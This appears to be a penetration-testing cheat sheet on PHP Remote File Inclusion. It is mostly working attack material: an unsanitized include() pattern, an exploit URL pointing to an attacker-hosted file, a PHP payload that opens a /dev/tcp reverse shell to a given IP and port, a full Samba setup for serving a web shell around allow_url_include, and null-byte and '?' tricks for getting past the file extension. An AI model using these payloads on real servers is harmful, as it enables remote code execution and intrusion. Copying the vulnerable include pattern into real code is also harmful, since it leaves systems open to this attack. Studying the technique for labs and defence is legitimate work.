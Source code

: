 # Remote File Inclusion \(RFI\)

Remote file inclusion uses pretty much the same vector as local file inclusion.

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the `php.ini` configuration file.

This is how they work.

So you have an unsanitized parameter, like this

```text
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```text
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```text
<?php echo shell_exec("whoami");?>

# Or just get a reverse shell directly like this:
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.

### Serving with SMB to bypass PHP config "allow\_url\_include" 

"allow\_url\_include" wrapper by-default set to "Off" which instruct PHP not to load remote HTTP or FTP URLs and hence prevent Remote File Inclusion attack. But, PHP does not block SMB URL loading even if "allow\_url\_include" and "allow\_url\_fopen" both are set to "Off". **This behaviour of PHP can be abused to load remotely hosted PHP web shell from SMB share.** set up an SMB share: 

```text
mkdir /var/www/html/pub/ 
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
echo > /etc/samba/smb.conf  # Remove all SMB config
```

Now, edit the sambaconfig and insert the following:

```text
	[global]
	workgroup = WORKGROUP
	server string = Samba Server %v
	netbios name = indishell-lab
	security = user
	map to guest = bad user
	name resolve order = bcast host
	dns proxy = no
	bind interfaces only = yes
	
	[ica]
	path = /var/www/html/pub
	writable = no
	guest ok = yes
	guest only = yes
	read only = yes
	directory mode = 0555
	force user = nobody
```

Now, we want to host a php shell in the samba directory: I used this for now, decent shell: [https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php) 

Go back to browser and call the shell: [http://IP/?lang=\\10.10.14.22\ica\webshell.php](http://10.10.10.151/blog/?lang=\\10.10.14.22\ica\webshell.php)

### Avoid extentions <a id="avoid-extentions"></a>

Remember to add the nullbyte `%00` to avoid appending `.php`. This will only work on php before version 5.3.

If it does not work you can also add a `?`, this way the rest will be interpreted as url parameters.

